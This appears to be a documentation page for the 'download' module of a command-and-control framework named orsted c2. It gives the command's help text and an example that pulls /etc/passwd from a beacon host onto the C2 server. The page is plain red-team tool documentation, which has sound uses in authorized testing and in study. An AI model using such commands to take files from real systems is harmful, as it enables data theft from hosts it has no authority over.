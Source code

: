 ```yaml
---

title: download
description: orsted c2 download
---
```


### General

`download` allows you to download files.

```
[Session 9: haroun@DESKTOP-DU89UIV] » download --help

download file from beacon to the server

Usage:
  download [flags] remotefile localpath

Args:
  remotefile  string    remote file to download
  localpath   string    local destination on the server

Flags:
  -h, --help     display help
```

It requires you to load the `download` SO with `load-module download`.

Example:

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » download /etc/passwd /tmp/host_passwd
```

This will download the remote file `/etc/passwd` to the `/tmp/host_passwd` of the `orsted-server` (not the `orsted-client`)
